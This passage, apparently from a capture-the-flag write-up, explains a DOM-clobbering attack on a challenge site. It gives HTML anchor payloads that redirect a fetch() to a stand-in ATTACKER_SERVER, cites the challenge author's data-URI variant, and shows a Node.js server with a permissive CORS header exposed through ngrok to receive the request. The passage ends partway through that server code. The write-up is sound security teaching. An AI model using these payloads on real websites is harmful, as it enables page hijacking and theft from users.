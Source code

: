 We can try the various payloads and each time check the value of `window.debug.extension` in the console.

{% code overflow="wrap" %}
```html
<a id="debug"></a><a id="debug" name="extension" href="//ATTACKER_SERVER"></a>
```
{% endcode %}

{% code overflow="wrap" %}
```js
>> window.debug.extension.toString()
<- 'https://attacker_server'
```
{% endcode %}

Perfect! So we know that

{% code overflow="wrap" %}
```js
fetch(window.debug?.extension.toString());
```
{% endcode %}

will actually be

{% code overflow="wrap" %}
```js
fetch("https://attacker_server");
```
{% endcode %}

Side note: The [official solution](https://gist.github.com/voxxal/fb69443f0a31bc6f2ddbce763d609935#sanity) from the challenge author used a different technique. By specifying the `data` value, they were able to assign the desired JSON object directly.

{% code overflow="wrap" %}
```js
<a id=debug><a id=debug name=extension href='data:;,{"report": true}'>
```
{% endcode %}

If, like me, you were using a `SimpleHTTPServer` with python, exposed via `ngrok` then you'll notice you didn't receive a request.

Checking the console again, you'll see why.

> Access to fetch at `https://ATTACKER_SERVER/` from origin `https://sanity.amt.rs` has been blocked by `CORS` policy: **No 'Access-Control-Allow-Origin' header is present on the requested resource**. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

There's various ways we can add this header, e.g. launching `ngrok` with `--request-header-add "Access-Control-Allow-Origin: *"`.

In this case, I used a `nodejs` app (exposed via `ngrok`).

{% code overflow="wrap" %}
```js
const http = require("http");

const server = http.createServer((req, res) => {
    // Set the Access-Control-Allow-Origin header to allow requests from any origin
    res.setHeader("Access-Control-Allow-Origin", "*");

    // Send the response
    res.end("{}");
});

const port = 3000;
server.listen(port, () => {
    console.log(`Server listening on port ${port}`);
```